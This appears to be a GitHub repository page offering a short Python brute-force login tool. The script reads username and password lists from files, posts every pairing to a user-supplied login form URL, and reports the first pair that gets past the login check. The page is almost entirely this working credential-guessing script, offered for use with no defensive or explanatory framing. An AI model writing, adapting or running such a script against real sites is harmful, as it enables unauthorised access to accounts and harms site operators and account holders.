 # Brute-Force-Login-Tool-Basic-Python-Tool-

import requests

def brute_login(url, unamef, passf):
   with open(unamef,'r') as uf :
    usernames= uf.read().strip().splitlines()
 
   with open(passf,'r') as pf:
    passwords= pf.read().strip().splitlines()
 

   for username in usernames:
     for password in passwords:
        session= requests.session()
       
        login_data ={
            'uname': username,
            'pass': password,
            'submit'  : 'login'
       }    

        response= session.post(url,data= login_data)

        if 'you must login' not in response.text:
            print(f'login successfullwith username:{username} and password:{password}')
            return
              
        
   print('login failed, credentials not found')


if __name__=='__main__':
    url = input('url de :')
    unamef='usernames.txt' 
    passf= 'passwords.txt'
    
    brute_login(url, unamef, passf)

    
